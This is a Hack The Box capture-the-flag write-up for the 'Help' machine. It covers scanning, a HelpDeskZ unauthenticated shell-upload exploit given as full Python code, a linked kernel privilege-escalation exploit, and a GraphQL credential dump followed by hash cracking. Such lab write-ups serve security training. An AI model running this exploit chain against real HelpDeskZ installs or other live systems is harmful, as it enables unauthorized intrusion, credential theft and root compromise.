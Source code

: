 ```yaml
---
title:     "Hack The Box - Help"
tags: [linux,easy,node,kernel_exploit]
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-help/1.png)

We are going to pwn Help from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/170>


Like always begin with our Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp


PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Lets begin from HTTP,It is an apache default webpage
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-help/2.png)

So bruteforce the directories
## Gobuster Results:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.121
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/15 00:08:21 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
/javascript (Status: 301)
/server-status (Status: 403)
/support (Status: 301)
===============================================================
2019/12/15 00:10:45 Finished
===============================================================
```

Found ``HelpDeskZ`` on ``/support``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-help/3.png)
It has a login page too.

A quick check for any exploits available I found this

>https://www.exploit-db.com/exploits/40300 

From the exploit I came to know we need to submit a ticket
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-help/4.png)

I gave some random and uploaded my reverse shell as ``root.php``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-help/5.png)

When I click uploaded it says<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-help/6.png)

Then I checked the source code of the ``HelpDeskz`` on github

>https://github.com/evolutionscript/HelpDeskZ-1.0

I came to know when we uploaded it shows ``Not allowed`` but its not deleting ,The file is still saved on the server.

I already found an exploit from ``exploitdb`` so I just edited some 


```
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+'/uploads/tickets/'+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```

I changed the ``url`` , I found that from the github repo.

Now I executed the scirpt on my machine with listening on another terminal.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-help/7.png)

I got an user ``help``

## Privilege Escalation:

While checking the kernel it looks old one 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-help/8.png)

> https://www.exploit-db.com/exploits/44298 

Got an exploit for that version

Uploaded the script to the machine 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-help/9.png)<br/>
Got Root

## Enumerating ``Node.js``:

It looks like ``node.js`` running on port ``3000``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-help/10.png)

It give us some message that we need to find the credentials with given query.

Mostly ``node.js`` run as ``express graphql``

I test it with adding ``graphql?`` <br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-help/11.png)

It shows some message so I tested with changing it to ``test`` and it gives me some error so I confirmed there is ``graphql``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-help/12.png)

We know the message told us to find in given ``query`` and I googled about it and found this 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-help/13.png)

So I added username and password <br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-help/14.png)<br/>
Got some credentials

It looks like md5sum so I cracked with online crackstation
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-help/15.png)

It works for ``HelpDeskz`` login
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-help/16.png)